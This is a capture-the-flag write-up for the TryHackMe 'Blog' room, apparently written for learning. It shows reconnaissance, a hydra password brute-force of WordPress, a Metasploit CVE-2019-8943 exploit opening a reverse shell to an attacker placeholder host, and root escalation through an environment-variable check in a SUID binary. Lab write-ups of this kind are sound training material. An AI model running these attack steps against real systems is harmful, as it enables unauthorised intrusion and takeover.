

# Blog

| Property | Value |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **URL** | https://tryhackme.com/room/blog |
| **Focus** | WordPress RCE (CVE-2019-8943) + SUID environment variable privilege escalation |

---

## Port Scanning `[RECON]`

```bash
nmap -sV -sC -O -p 22,80,139,445 <TARGET_IP>

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp   open  http        Apache httpd 2.4.29 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu
```

Linux 4.15 with WordPress 5.0 on port 80. Both Samba and SSH services present.

---

## WordPress Enumeration `[ENUMERATION]`

```bash
wpscan --url http://blog.thm --enumerate u

[+] WordPress Version: 5.0 (Insecure, from 6 December 2018)
[+] Theme: Twenty Twenty 1.3
[+] XML-RPC: Enabled at /xmlrpc.php
[+] Upload directory listing enabled

Users enumerated:
- kwheel (Karen Wheeler)
- bjoel (Billy Joel)
```

WordPress 5.0 is vulnerable to CVE-2019-8943 (crop image RCE). XML-RPC enabled facilitates credential brute-force. Theme version outdated.

---

## SMB Enumeration `[ENUMERATION]`

```bash
smbmap -H blog.thm

[+] IP: 10.128.174.79:445       Name: blog.thm
    Disk: BillySMB                Permissions: READ, WRITE
    Comment: Billy's local SMB Share
```

| Switch | Description |
|--------|-------------|
| `-H` | SMB host target |

Anonymous read/write access to `BillySMB`. Retrieved files contain steganographic image and media files (no useful data extracted).

---

## Credential Extraction — WordPress Brute-force `[ENUMERATION]`

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered"

[+] Host: <TARGET_IP>
[+] User: kwheel
[+] Password: <PASSWORD>
[+] Login valid
```

| Switch | Description |
|--------|-------------|
| `-l` | Single username to test |
| `-P` | Wordlist of passwords |

User `kwheel` has weak password in rockyou.txt dictionary. Dashboard access obtained but user lacks administrative privileges to modify theme files. Brute-force of `bjoel` yields no results.

---

## WordPress RCE via Crop Image (CVE-2019-8943) `[EXPLOITATION]`

```bash
msfconsole
search wp crop
use exploit/multi/http/wp_crop_rce

set USERNAME kwheel
set PASSWORD <PASSWORD>
set RHOSTS <TARGET_IP>
set LHOST <ATTACKER_IP>
set LPORT <ATTACKER_PORT>

run

[*] Started reverse TCP handler on <ATTACKER_IP>:<ATTACKER_PORT>
[+] Authenticated with WordPress
[*] Uploading payload...
[+] Image uploaded
[*] Meterpreter session 1 opened
```

CVE-2019-8943 exploits insufficient validation in WordPress 5.0 image crop functionality. Authenticated users can upload and manipulate images, allowing arbitrary PHP file inclusion via theme directory.

**Initial shell as:** `www-data`

Post-exploitation shell stabilization:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

---

## Finding SUID Binaries `[PRIVESC]`

```bash
find / -type f -perm -u=s 2>/dev/null | grep -Ev "snap"

/usr/sbin/checker
/usr/bin/passwd
[...]
```

Binary `/usr/sbin/checker` identified with setuid bit. Analysis with `strings` reveals getenv() call for variable `admin` and system() call to `/bin/bash`.

---

## SUID Binary Analysis with ltrace `[PRIVESC]`

```bash
file /usr/sbin/checker

checker: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked
```

```bash
ltrace /usr/sbin/checker

getenv("admin")                    = NULL
puts("Not an Admin")               = 13
+++ exited (status 0) +++
```

Binary checks for environment variable `admin`. Without it, exits. With variable set:

```bash
export admin=1
ltrace /usr/sbin/checker

getenv("admin")                    = "1"
setuid(0)                          = -1
system("/bin/bash")
```

Pseudocode of vulnerable binary:
```c
int main() {
    if (getenv("admin") == NULL) {
        puts("Not an Admin");
        return 1;
    }
    setuid(0);           // Already root via SUID, fails
    system("/bin/bash"); // Executes with inherited root privileges
    return 0;
}
```

The `setuid(0)` call returns -1 (failure) because the binary already inherits root privileges from the SUID bit. However, `system("/bin/bash")` executes in a root-privileged context regardless.

---

## Privilege Escalation to Root `[PRIVESC]`

```bash
admin=1 /usr/sbin/checker

id

uid=0(root) gid=33(www-data) groups=33(www-data)
```

✅ UID 0 confirms root access. Environment variable `admin` is user-controllable — the binary trusts only administrators can set it, but any user can do so.

---

## Attack Chain



---

## Key Concepts

**SUID Privilege Model**

SUID (Set User ID) binaries execute with the privileges of their owner, typically root. The kernel grants these privileges at execution time without re-validating the caller's identity. If the binary relies on user-controllable mechanisms (environment variables, file paths) to verify authorization, the security model collapses.

**CVE-2019-8943 — WordPress Image Manipulation**

WordPress 5.0 allows authenticated users to crop/manipulate uploaded images without strict validation. The crop operation can be abused to include arbitrary PHP code in theme files, resulting in remote code execution with web server privileges.

**Environment Variables as Security Boundary**

Environment variables are entirely user-controlled. Using them as an authentication mechanism in privileged binaries is a critical design flaw — equivalent to checking a user-provided password stored locally without cryptographic verification.

---

## Lessons Learned

- SUID binaries represent a critical privilege escalation vector; always enumerate and analyze them with `ltrace` or `strace`.
- Weak password policies allow dictionary-based brute-force against default credential locations (rockyou.txt).
- Environment variables should never be trusted as security mechanisms, even in privileged contexts.
- WordPress version 5.0 exhibits severe image handling vulnerabilities; legacy versions require immediate patching.

---

## References

- **[CVE-2019-8943]** WordPress 5.0 Image Crop RCE — https://www.exploit-db.com/exploits/46662
- **[CVE-2019-8942]** WordPress 5.0 Post Type Privilege Escalation — https://www.exploit-db.com/exploits/46511
